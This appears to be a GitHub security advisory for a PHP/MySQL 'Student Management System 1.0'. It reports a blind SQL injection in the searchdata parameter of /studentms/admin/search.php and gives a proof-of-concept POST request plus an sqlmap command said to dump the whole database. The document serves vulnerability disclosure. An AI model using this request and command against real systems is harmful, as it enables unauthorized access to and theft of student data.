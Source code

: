 # Student Management System 1.0

## Overview

The Student Management System (SMS) is a web application developed using PHP and MySQL for managing student information. This repository contains the source code and details of the system, along with a security vulnerability report.

**Auditor:**  
Shoaib Alam - [LinkedIn Profile](https://www.linkedin.com/in/shoaib-alam-b53843203/)

---

## Security Vulnerability Report

### Description

A **Blind SQL Injection** vulnerability has been detected in the Student Management System. This issue affects the `searchdata` parameter in the search functionality of the application.

- **Vulnerable Endpoint:** `/studentms/admin/search.php`  
- **Vulnerable Parameter:** `searchdata`

The `searchdata` parameter is susceptible to Blind SQL Injection due to inadequate input sanitization. An attacker could exploit this vulnerability by injecting malicious SQL queries into the `searchdata` input, potentially gaining unauthorized access to the database or other sensitive information.

### Proof of Concept (PoC)

#### Vulnerable URL

`/studentms/admin/search.php`

#### Example POST Request

```http
POST /studentms/admin/search.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
Origin: http://localhost
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://localhost/studentms/admin/search.php
Cookie: PHPSESSID=kq90r1jv25kn4flrqd74v1miqd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

searchdata=*&search=
```

1. Save the above POST Request to req.txt using notepad or any text editor.

2. Use tool such as SQLMAP to exploit the above by applying this command (you can customize yours): sqlmap -r req.txt --dbs --random-agent --level 3 --risk 3

The above command will dump the entire database of the web application.
